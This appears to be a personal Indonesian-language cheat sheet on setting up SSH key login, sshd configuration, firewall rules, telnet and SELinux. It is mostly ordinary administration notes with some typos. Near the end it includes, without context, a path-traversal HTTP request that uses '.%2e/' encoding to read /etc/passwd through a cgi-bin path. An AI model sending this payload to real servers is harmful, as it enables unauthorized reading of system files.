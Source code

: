 # ssh :22

SSH adalah Secure Shell, yaitu sebuah protokol yang memungkinkan kamu untuk mengontrol perangkat, termasuk mengakses dan memodifikasi beragam pengaturan file yang ada dalam server dalam jarak jauh.

## ubuntu, redhat, termux
- install ssh
  - ```apt install openssh-server```

- konfigurasi ssh /etc/ssh/
  - ```nano /etc/ssh/sshd_config```
    ```sh
    port 22
    ```

- start ssh
  - ```systemctl restart ssh or /etc/init.d/ssh restart```
  - ```systemctl status/start/stop/enable/disable ssh```

- host windows / termux
  - ```ssh user@192.168.1.1 -p 22```

# remote with keygen
- make ssh keygen
  ```
  ssh-keygen -t rsa
  scp path_to_path/.ssh/id.rsa.pub user@server:/home/user/.ssh/authorized_keys
  scp path_to_path/.ssh/id.rsa.pub user@server:/home/user/.ssh/windows.keys
  ```
- authorized keys
  - cd /etc/ssh/sshd.conf
  - and add this
  ```
  AuthorizedKeysFile  /home/ariafatah/.ssh/windows.keys
  ```
  - systemctl restart sshd

- server / client
  - make keygen
    - ```ssh-keygen```
    - ```ssh-keygen -t RSA / -t DSA / -t ECDSA``` (opsional)
  - add file and put pass every login
    - Enter file in which to save the key (/root/.ssh/id_rsa): (u can enter or add path manual)
    - Enter passphrase (empty for no passphrase): (opsional)
  - cheeck key
    ```
    Your identification has been saved in /root/.ssh/id_rsa
    Your public key has been saved in /root/.ssh/id_rsa.pub
    ```
    - ```cat /root/.ssh/id_rsa.pub```
      - and copy key and put to authorized_keys
      - and u can use in client
- client
    - ```scp C:\Users\ariaf\.ssh\id_rsa.pub ariafatah@192.168.1.1:/home/ariafatah/.ssh/authorized_keys```
    - ```ssh-copy-id -i /root/.ssh/id_rsa.pub user@<destination_ip>```
    - ```ssh-copy-id -i /lokasi/ke/kunci.pub user@server```
    - ```ssh -i user_cert user@server_address```


inget id_rsa yang dikirim pub
lalu untuk fileyang di .ssh/authorized_keys nya harus 700 dan harus milih user
  
- server
  - jika ingin sshnya hanya bisa di akses lewat id_rsa
  - bisa tambahkan aturan di /etc/ssh/sshd_conf
    ```
    PasswordAuthentication no
    ```

    sudo firewall-cmd --add-port=1026/tcp --permanent successsudo firewall-cmd --remove-service=ssh --permanent success

# telnet :23

Perbedaan Utama Antara Telnet dan SSH Telnet tidak menyediakan autentikasi, sedangkan SSH mengautentikasi penerima. Jaringan pribadi berfungsi dengan Telnet, sedangkan SSH beroperasi pada jaringan bersama. Telnet berinteraksi melalui TCP/IP melalui nomor port 23, sedangkan SSH menggunakan nomor port 22 untuk komunikasi.

- install ssh
  - ```apt install telnet```

- host windows / termux
  - ```telnet 192.168.1.1```




sestatus #untuk cek status selinux
# mengaktidkan selinux
- setenforce 1
  atau
- nano /etc/selinux/config > SELINUX=enforcing


- karakter dot kedua dienkripsi sebagai %2e, “…/” berubah menjadi “.%2e/” dan berhasil melewati pemeriksaan.
- GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
Host: 127.0.0.1:8080


ssh -OPTIONS -p SSH_PORT user@remote_server "remote_command1; remote_command2; remote_script.sh"